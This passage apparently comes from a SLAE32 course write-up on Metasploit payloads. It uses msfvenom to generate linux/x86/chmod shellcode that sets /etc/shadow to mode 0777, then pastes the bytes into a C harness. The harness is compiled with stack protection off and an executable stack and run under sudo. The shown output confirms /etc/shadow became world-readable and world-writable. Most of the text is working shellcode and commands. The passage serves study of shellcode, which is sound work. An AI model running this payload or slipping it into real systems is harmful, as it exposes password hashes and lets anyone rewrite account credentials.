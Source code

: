 The following command utilizes the `chmod` payload, changes the `MODE` to `0777` and outputs the shellcode in `C` format.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/1_chmod$ msfvenom -p linux/x86/chmod MODE=0777 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 177 bytes
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63"
"\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xff\x01\x00\x00"
"\x59\xcd\x80\x6a\x01\x58\xcd\x80";
```

Now we can paste the extracted shellcode in the file `shellcode.c`. So, the whole `C` program is the following:

```c
#include<stdio.h>
#include<string.h>

unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63"
"\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xff\x01\x00\x00"
"\x59\xcd\x80\x6a\x01\x58\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(buf));

	int (*ret)() = (int(*)())buf;

	ret();
}
```

Now we need to compile the program, by disabling the stack protection as well as making the stack executable:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/1_chmod$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

In order to verify that the payload is working we must execute `shellcode`. We also check the permissions of `/etc/shadow` before and after the execution.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/1_chmod$ ls -la /etc/shadow
-rw-r----- 1 root shadow 1298 Μάρ  31 20:04 /etc/shadow
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/1_chmod$ sudo ./shellcode 
[sudo] password for geobour98: 
Shellcode Length:  7
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/1_chmod$ ls -la /etc/shadow
-rwxrwxrwx 1 root shadow 1298 Μάρ  31 20:04 /etc/shadow
```
